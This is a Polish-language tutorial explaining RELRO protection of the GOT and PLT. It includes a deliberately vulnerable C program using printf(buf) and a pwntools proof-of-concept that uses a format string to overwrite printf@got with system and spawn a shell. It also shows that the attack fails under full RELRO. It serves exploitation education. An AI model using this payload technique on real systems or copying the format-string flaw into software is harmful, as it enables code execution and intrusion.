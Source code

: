 # RERLO

### 1.1 Opis

RELRO to technika polegająca na oznaczaniu sekcji związanych z GOT i PLT jako tylko do odczytu, co nie pozwala nadpisać tych sekcji.

Tablica GOT jest zapełniana podczas przebiegu programu. Kiedy po raz pierwszy funkcja z biblioteki współdzielnej zostanie wywołana GOT zawiera pointer powrotny do PLT, gdzie dynamiczny linker dostaje wywołany. Linker po odnalezieniu funkcji zapisuje ją w GOT. To jest `lazy binding` - raz znaleziona funkcja jest trzymana w pamięci w tablicy GOT, co pozwala zaoszczędzić czas.

Istnieja dwa rodzaje RELRO:
* partial RELRO - jedynie sekcja `.got` jest `read only` - co pozwala na nadpisanie adresu w `.got.plt` i wykonanie złośliwego kodu.
* full RELRO - cały GOT jest `read only`, co uniemożliwia ataki z nadpisaniem adresu w GOT.

Partial RELRO jest defaultowym zachowaniem `gcc` i nie wpływa na performance. Full RELRO jest jednak rozwiązaniem dość inwazyjnym. W przypadku ustawienia GOT jako `read only` w tablicy tej muszą już znajdować się wszystkie symbole, które są używane przez program. 

Znacząco wpływa to na czas startu aplikacji, bo linker musi na samym jej starcie uzupełnić cała tablice GOT

W gcc kompiluje się z full RERLO flaga `-z,relro,now`.

### 1.2 Proof of Concept - got overwrite with format string


Kod podatnej aplikacji:

```c
// gcc vuln.c -std=c99 -m32 -fno-stack-protector -no-pie -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>


int main()
{
    char buf[100];
    printf("Hello \n");
    scanf("%s",buf);
    while(strcmp(buf,"exit")) {
        printf("\n");
        printf(buf);
        scanf("%s",buf);
    }

    return 0;

}
```

Strategią tego ataku jest podmiana adresu funkcji `printf` na adres funkcji `system` w tablicy GOT.

Aby tego dokonać użyje exploitu typu `format string` ,który korzysta z tagów formatujących funkcji `printf`.
```c
 printf(buf);
```

Ta linijka jest naszym wejściem do programu.

W przypadku podania tagów `%x` pobierana jest wartość ze stosu.

![img.png](img/img.png)

Chcę ustalić jak daleko na stosie jest `buf` Metodą prób i błędów znajduję początek bufora. Aby pobrać inny argument niż najwyższy używam konstrukcji %3$x.

![img_1.png](img/img_1.png)

Bufor znajduję się na 7 pozycji.

Teraz potrzeba mi adresu wpisu GOT `printf` oraz adresu `system` w `libc`.

![img_2.png](img/img_2.png)

![img_3.png](img/img_3.png)

Teraz moim zadaniem jest skopiować adres system pod adres `0x0804c010`.

Dokonam tego tagiem `%n`. Zapisuje on ilość bajtów wyswietlonych pod adres wskazany przez pointer.

Zaczynam pisać exploit.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("Hello")

gdb.attach(p)

#0804c010 -prinft@got

name = '%15$x%16$x'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'

p.sendline(name)

p.interactive()
```

Używam paddingu, aby pozycje na stosie były niezmienne. Według moich obliczeń adresy wpisane przez mnie znajdują się na 15 i 16 pozycji stosu.

![img_4.png](img/img_4.png)

Jest to prawda.

Pod adres `0x0804c010` chce zapisać `0f10` czyli `3856` bajty. Osiągam to whitespace'ami generowanym przez tag x.

Pod adres `0x0804c012` chce zapisać wyższą cześć adresu systemu czyli `f7e1` co daje `63457` bajty, ale poprzednie bajty już są na ekranie, więc `63457 - 3856 = 59601` bajtów.

Sklejam gotowy exploit.


```python
name = '%3856p%15$n%59601p%16$n'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'
```

Teraz powinniśmy otrzymać pseudo shella, ale po wpisaniu `sh` system spawnuje pełnoprawnego shella.

![img_5.png](img/img_5.png)

Udało się.

Exploit odpalany z włączonym relro nie daje żadnego skutku - adres got znajduję się w innym miejscu. W przypadku próby nadpisania tego miejsca następuję `SIGSEGV` - chcieliśmy nadpisać sekcje read-only. Kod tego exploitu znajduję się w `exploit1.py`.

![img_6.png](img/img_6.png)

